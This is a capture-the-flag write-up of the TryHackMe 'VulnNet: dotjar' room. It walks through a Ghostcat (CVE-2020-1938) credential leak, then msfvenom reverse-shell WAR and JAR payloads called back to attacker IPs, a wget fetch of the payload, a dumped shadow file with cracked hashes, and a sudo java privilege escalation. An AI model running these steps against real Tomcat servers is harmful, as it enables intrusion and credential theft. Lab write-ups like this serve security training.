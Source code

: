 ```yaml
---
title: THM VulnNet DotJar
author: hanhctf
date: 2023-05-08 3:22:22 +0700
categories: [Write-up, THM]
tags: [Java]
toc: true
mermaid: true
---
```


# [**_VulnNet: dotjar room_**](https://tryhackme.com/room/vulnnetdotjar)

## Nmap

```shell
PORT     STATE SERVICE REASON  VERSION
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30

```

## Foothold

- On port 8080, Apache Tomcat/9.0.30
- On port 8009, ajp13 --> quick search --> CVE-2020-1938 --> can exploit with metasploit  
![](/commons/THM/Vulnnet-dotjar/0_msf.png)

With default param in metasploit, we can see a creds for `host-manager`

```
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

```

In `Tomcat Virtual Host Manager` we can use exploit from [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

1. Make a malicious .war file 
  `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=9001 -f war -o shell.war`

2. Upload and deploy on vuln server
  `curl --upload-file shell.war -u 'webdev:Hgj3LA$02D$Fa@21' "http://10.10.208.139:8080/manager/text/deploy?path=/shell"'

3. Get revershell 
  - Open listen `Terminal' on port 9001 
    `nc -nlvp 9001'  
  
  - Extract .jsp file from .war 
    ```
    unzip shell.war
    Archive:  shell.war
    creating: WEB-INF/
    inflating: WEB-INF/web.xml
    inflating: opilidtxwqm.jsp
    ```
  - Access vuln file
    `curl -u 'webdev:Hgj3LA$02D$Fa@21' "http://10.10.208.139:8080/shell/opilidtxwqm.jsp"`

## Privilege Escalation

- After enumeration, we can find a `shadow-backup-alt.gz` in `/var/backups`
- unzip `.gz` file with `gzip -d shadow-backup-alt.gz`, we can see 3 passwd hash of `root/jdk-admin/web`
```shell
cat shadow-backup-alt
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:18643:0:99999:7:::
daemon:*:18642:0:99999:7:::
bin:*:18642:0:99999:7:::
sys:*:18642:0:99999:7:::
sync:*:18642:0:99999:7:::
games:*:18642:0:99999:7:::
man:*:18642:0:99999:7:::
lp:*:18642:0:99999:7:::
mail:*:18642:0:99999:7:::
news:*:18642:0:99999:7:::
uucp:*:18642:0:99999:7:::
proxy:*:18642:0:99999:7:::
www-data:*:18642:0:99999:7:::
backup:*:18642:0:99999:7:::
list:*:18642:0:99999:7:::
irc:*:18642:0:99999:7:::
gnats:*:18642:0:99999:7:::
nobody:*:18642:0:99999:7:::
systemd-network:*:18642:0:99999:7:::
systemd-resolve:*:18642:0:99999:7:::
syslog:*:18642:0:99999:7:::
messagebus:*:18642:0:99999:7:::
_apt:*:18642:0:99999:7:::
uuidd:*:18642:0:99999:7:::
lightdm:*:18642:0:99999:7:::
whoopsie:*:18642:0:99999:7:::
kernoops:*:18642:0:99999:7:::
pulse:*:18642:0:99999:7:::
avahi:*:18642:0:99999:7:::
hplip:*:18642:0:99999:7:::
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:18643:0:99999:7:::
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:18643:0:99999:7:::
```

- Try crack hash with `hashcat` mode 1800, we got passwd of jdk-admin
***Got user flag***
- With jdk-admin password, run basic command to check vector priv linux
  ```
  sudo -l
  Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
  ```

- jdk-admin can run a `.jar` file as root user without passwd of root group
- Make a malicious `.jar` 
  `msfvenom -p java/shell_reverse_tcp LHOST=10.8.51.36 LPORT=4444 -f jar -o rev.jar`
- Upload to victim via local server with python
  - On local
  `python -m http.server 80`
  - On djk-admin shell
  `wget 10.8.51.36/rev.jar`
- Listen on port 4444 on other `Terminal`
- Run `.jar` file on jdk-admin shell
`/usr/bin/java -jar rev.jar`

***Got root flag***